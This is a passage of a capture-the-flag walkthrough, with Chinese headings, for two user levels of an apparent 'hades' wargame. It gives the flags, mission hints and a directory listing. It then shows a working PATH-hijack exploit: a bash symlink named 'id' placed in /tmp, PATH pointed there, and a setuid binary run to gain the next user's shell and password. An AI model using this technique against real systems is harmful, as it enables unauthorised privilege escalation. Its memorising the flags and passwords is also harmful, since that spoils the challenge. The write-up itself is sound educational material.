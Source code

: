 ## User - andromeda

### flag - 04

```plaintext
^xzsHGrOeNctIZLGKzWq^
```

### 任务目标

```plaintext title="mission.txt"
The user anthea reminds us who we are.
```

### 行动

```plaintext title="ls -lah"
drwxr-x--- 2 root      andromeda 4.0K Jul 26  2023 .
drwxr-xr-x 1 root      root      4.0K Jul 26  2023 ..
-rw-r--r-- 1 andromeda andromeda  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 andromeda andromeda 3.5K Apr 23  2023 .bashrc
-rw-r--r-- 1 andromeda andromeda  807 Apr 23  2023 .profile
-r--r----- 1 anthea    anthea      21 Jul 26  2023 anthea_pass.txt
-rw-r----- 1 root      andromeda   22 Jul 26  2023 flagz.txt
-rw-r----- 1 root      andromeda  166 Jul 26  2023 mission.txt
-rwS--s--- 1 root      andromeda  16K Jul 26  2023 uid
```

```shell title="Exploit it"
andromeda@hades:~$ ln -sv /bin/bash /tmp/id
ln: failed to create symbolic link '/tmp/id': File exists
andromeda@hades:~$ PATH=/tmp
andromeda@hades:~$ ./uid
id: dircolors: command not found
anthea@hades:~$ export PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
anthea@hades:~$ cat anthea_pass.txt
yWFLtSNQArEBTHtWgkKd
```

## User - anthea

### flag - 05

```plaintext
^AcFLuAjhydNKIkPoFLL^
```

### 任务目标

```plaintext title="mission.txt"
User aphrodite is obsessed with the number 94.
```

### 行动

